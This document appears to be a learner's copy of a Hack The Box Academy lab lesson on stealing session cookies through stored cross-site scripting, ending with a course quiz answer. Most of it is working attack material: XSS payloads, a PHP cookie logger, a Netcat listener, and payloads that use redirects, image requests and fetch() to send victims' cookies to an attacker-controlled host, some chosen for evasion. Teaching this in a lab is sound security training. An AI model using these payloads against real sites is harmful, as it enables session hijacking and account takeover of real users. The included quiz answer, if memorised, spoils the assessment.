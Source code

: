 ```yaml
---
sticker: emoji//1f512
---
```

Cross-Site Scripting (XSS) vulnerabilities are among the most common web application vulnerabilities. An XSS vulnerability may allow an attacker to execute arbitrary JavaScript code within the target's browser and result in complete web application compromise if chained together with other vulnerabilities. In this section, though, we will focus on exploiting Cross-Site Scripting (XSS) vulnerabilities to obtain valid session identifiers (such as session cookies).

If you want to dive deeper into Cross-Site Scripting (XSS) vulnerabilities, we suggest you study our [Cross-Site Scripting (XSS)](https://academy.hackthebox.com/module/details/103) module.

For a Cross-Site Scripting (XSS) attack to result in session cookie leakage, the following requirements must be fulfilled:

- Session cookies should be carried in all HTTP requests
- Session cookies should be accessible by JavaScript code (the HTTPOnly attribute should be missing)

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target application and follow along. Don't forget to configure the specified vhost (`xss.htb.net`) to access the application.

Navigate to `http://xss.htb.net` and log in to the application using the credentials below:

```ad-note
- Email: crazygorilla983
- Password: pisces
```

This is an account that we created to look at the application's functionality. It looks like we can edit the input fields to update our email, phone number, and country.

![image](https://academy.hackthebox.com/storage/modules/153/20.png)

In such cases, it is best to use payloads with event handlers like `onload` or `onerror` since they fire up automatically and also prove the highest impact on stored XSS cases. Of course, if they're blocked, you'll have to use something else like `onmouseover`.

In one field, let us specify the following payload:

```javascript
"><img src=x onerror=prompt(document.domain)>
```

We are using `document.domain` to ensure that JavaScript is being executed on the actual domain and not in a sandboxed environment. JavaScript being executed in a sandboxed environment prevents client-side attacks. It should be noted that sandbox escapes exist but are outside the scope of this module.

In the remaining two fields, let us specify the following two payloads.

```javascript
"><img src=x onerror=confirm(1)>
```

```javascript
"><img src=x onerror=alert(1)>
```

We will need to update the profile by pressing "Save" to submit our payloads.

![image](https://academy.hackthebox.com/storage/modules/153/21.png)

The profile was updated successfully. We notice no payload being triggered, though! Often, the payload code is not going to be called/executed until another application functionality triggers it. Let us go to "Share," as it is the only other functionality we have, to see if any of the submitted payloads are retrieved in there. This functionality returns a publicly accessible profile. Identifying a stored XSS vulnerability in such a functionality would be ideal from an attacker's perspective.

That is indeed the case! The payload specified in the _Country_ field fired!

![image](https://academy.hackthebox.com/storage/modules/153/22.png)

Let us now check if _HTTPOnly_ is "off" using Web Developer Tools.

![image](https://academy.hackthebox.com/storage/modules/153/23.png)

_HTTPOnly_ is off!

---

## Obtaining session cookies through XSS

We identified that we could create and share publicly accessible profiles that contain our specified XSS payloads.

Let us create a cookie-logging script (save it as `log.php`) to practice obtaining a victim's session cookie through sharing a vulnerable to stored XSS public profile. The below PHP script can be hosted on a VPS or your attacking machine (depending on egress restrictions).

```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
?>
```

This script waits for anyone to request `?c=+document.cookie`, and it will then parse the included cookie.

The cookie-logging script can be run as follows. `TUN Adapter IP` is the `tun` interface's IP of either Pwnbox or your own VM.

```shell-session
smoothment@htb[/htb]$ php -S <VPN/TUN Adapter IP>:8000
[Mon Mar  7 10:54:04 2022] PHP 7.4.21 Development Server (http://<VPN/TUN Adapter IP>:8000) started
```

Before we simulate the attack, let us restore Ela Stienen's original Email and Telephone (since we found no XSS in these fields and also want the profile to look legitimate). Now, let us place the below payload in the _Country_ field. There are no specific requirements for the payload; we just used a less common and a bit more advanced one since you may be required to do the same for evasion purposes.

Payload:

```javascript
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://<VPN/TUN Adapter IP>:8000/log.php?c=' + document.cookie;"></video>
```

**Note**: If you're doing testing in the real world, try using something like [XSSHunter](https://xsshunter.com/), [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator) or [Project Interactsh](https://app.interactsh.com/). A default PHP Server or Netcat may not send data in the correct form when the target web application utilizes HTTPS.

A sample HTTPS>HTTPS payload example can be found below:

```javascript
<h1 onmouseover='document.write(`<img src="https://CUSTOMLINK?cookie=${btoa(document.cookie)}">`)'>test</h1>
```

**Simulate the victim**

Open a `New Private Window`, navigate to `http://xss.htb.net` and log in to the application using the credentials below:

- Email: smallfrog576
- Password: guitars

This account will play the role of the victim!

Now, navigate to `http://xss.htb.net/profile?email=ela.stienen@example.com`. This is the attacker-crafted public profile that hosts our cookie-stealing payload (leveraging the stored XSS vulnerability we previously identified).

You should now see the below in your attacking machine.

![image](https://academy.hackthebox.com/storage/modules/153/52.png)

Terminate the PHP server with Ctrl+c, and the victim's cookie will reside inside `cookieLog.txt`

![image](https://academy.hackthebox.com/storage/modules/153/53.png)

You can now use this stolen cookie to hijack the victim's session!

---

## Obtaining session cookies via XSS (Netcat edition)

Instead of a cookie-logging script, we could have also used the venerable Netcat tool.

Let us try that as well for completeness's sake.

Before we simulate the attack, let us place the below payload in the _Country_ field of Ela Stienen's profile and click "Save." There are no specific requirements for the payload. We just used a less common and a bit more advanced one since you may be required to do the same for evasion purposes.

```javascript
<h1 onmouseover='document.write(`<img src="http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}">`)'>test</h1>
```

Let us also instruct Netcat to listen on port 8000 as follows.


```shell-session
smoothment@htb[/htb]$ nc -nlvp 8000
listening on [any] 8000 ...
```

Open a `New Private Window` and navigate to `http://xss.htb.net/profile?email=ela.stienen@example.com`, simulating what the victim would do. We remind you that the above is an attacker-controlled public profile hosting a cookie-stealing payload (leveraging the stored XSS vulnerability we previously identified).

By the time you hold your mouse over "test," you should now see the below in your attacking machine.

![image](https://academy.hackthebox.com/storage/modules/153/54.png)

Please note that the cookie is a Base64 value because we used the `btoa()` function, which will base64 encode the cookie's value. We can decode it using `atob("b64_string")` in the Dev Console of Web Developer Tools, as follows.

![image](https://academy.hackthebox.com/storage/modules/153/55.png)

You can now use this stolen cookie to hijack the victim's session!

We don't necessarily have to use the `window.location()` object that causes victims to get redirected. We can use `fetch()`, which can fetch data (cookies) and send it to our server without any redirects. This is a stealthier way.

Find an example of such a payload below.

```javascript
<script>fetch(`http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}`)</script>
```

Give it a try...

It is about time we jump to another session attack called Cross-Site Request Forgery (CSRF or XSRF).

# Question
---

![](cybersecurity/images/Pasted%2520image%252020250219124916.png)

Answer is:

```
yes
```
